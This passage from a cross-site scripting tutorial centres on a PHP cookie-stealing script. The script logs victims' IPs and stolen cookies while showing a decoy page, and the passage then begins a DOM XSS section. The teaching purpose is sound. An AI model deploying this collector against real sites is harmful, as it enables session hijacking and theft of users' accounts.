 ```php
# Instruct the script to simply store the GET['cc'] content in a file
<?php
error_reporting(0); # Turn off all error reporting

function getVictimIP()= { ... } # Function that returns victim IP
function collect() {
$file= '_cc_.txt'; # The log file
$date=date("l dS of F Y h:i:s A");
$IP=getVictimIP();
$cookie= $_SERVER['QUERY_STRING'];

$log="[$date]\n\t> VictimIP: $IP\n\t> Cookies: $cookie\n\t> Extra info: $info\n";
$handle= fopen($file,"a"); # Open log file in append mode
fwrite($handle,$log."\n\b"); # Append the cookie
fclose($handle); # Append the cookie
}
collect();
echo '<h1>Page under construction</h1>'; # Trying to hide suspects.
```

Additionally we can use: [netcat](../netcat.md), [Beef](../beef.md),...


### 2. DOM based attack: incorrect use of eval()

In the following website we can see the code below:

![example of DOM XSS](../img/dom.png)
